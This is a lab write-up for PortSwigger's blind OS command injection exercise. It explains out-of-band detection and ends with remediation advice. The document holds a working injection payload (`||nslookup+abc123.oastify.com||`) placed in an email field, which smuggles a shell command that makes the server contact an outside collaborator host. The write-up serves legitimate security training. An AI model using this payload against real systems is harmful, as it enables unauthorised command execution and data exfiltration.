



# Blind OS command injection with out-of-band interaction

**Lab:** PortSwigger Web Security Academy — *Blind OS command injection with out-of-band interaction* (Practitioner).

> The feedback function runs a shell command containing the user-supplied details. The command runs asynchronously and has no effect on the response, and you cannot redirect output to a readable location. The goal is to exploit the blind injection to issue a DNS lookup to Burp Collaborator.

## 1. Why in-band and timing fail here

The command is executed asynchronously, so there is no measurable delay in the HTTP response, and there is no writable web-served directory to redirect output into. The remaining reliable signal is an **out-of-band (OAST)** network interaction: make the server reach out to infrastructure you control.

## 2. Generate a Collaborator payload

In Burp, open **Collaborator** and click **Copy to clipboard** to get a unique subdomain such as `abc123.oastify.com`. Any DNS or HTTP request to it is logged and attributed to you.

## 3. Inject an nslookup payload

Intercept the feedback request, send it to Repeater, and set the `email` parameter to a command that resolves your Collaborator domain:

```text
email=||nslookup+abc123.oastify.com||
```

- `||` runs our command after the preceding one fails.
- `nslookup` performs a DNS lookup of the given hostname.
- the Collaborator subdomain is the hostname the server will resolve.
- trailing `||` isolates the payload.



## 4. Confirm the interaction

Back in the Collaborator tab, poll for interactions. A **DNS lookup** arriving from the target confirms the server executed your command:





## Why the attack works

Even when output is discarded and execution is asynchronous, the injected command still runs. Forcing a DNS lookup produces evidence **outside** the application: the request lands on your Collaborator server. DNS is rarely blocked outbound, so this is one of the most reliable ways to prove blind code execution.

## Remediation

Do not construct shell commands from user input; use a parameterised process API and validate the email field. Restricting the server's outbound DNS/network access provides defence in depth against OAST-based confirmation and exfiltration.
